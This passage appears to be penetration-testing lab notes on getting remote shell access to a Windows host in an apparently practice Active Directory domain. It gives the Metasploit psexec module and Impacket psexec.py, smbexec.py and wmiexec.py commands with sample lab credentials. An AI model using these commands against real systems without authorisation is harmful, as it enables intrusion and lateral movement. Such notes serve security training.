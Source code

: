 ### Different Method to get shell access

#### Use metasploit
Use `exploit/windows/smb/psexec` for getting a shell

#### Use psexec
Type the following command
```bash
# Syntax
psexec.py <domain>/<user>:<password>@<IP>

# Example
psexec.py marvel.local/fcastle:Password1@192.168.247.130 
```

![[Pasted image 20210723102736.png]]

#### Use smbexec
Type the following command
```bash
# Syntax
smbexec.py <domain>/<user>:<password>@<IP>

# Example
smbexec.py marvel.local/fcastle:Password1@192.168.247.130 
```

#### Use wmiexec
Type the following command
```bash
# Syntax
wmiexec.py <domain>/<user>:<password>@<IP>

# Example
wmiexec.py marvel.local/fcastle:Password1@192.168.247.130 
```
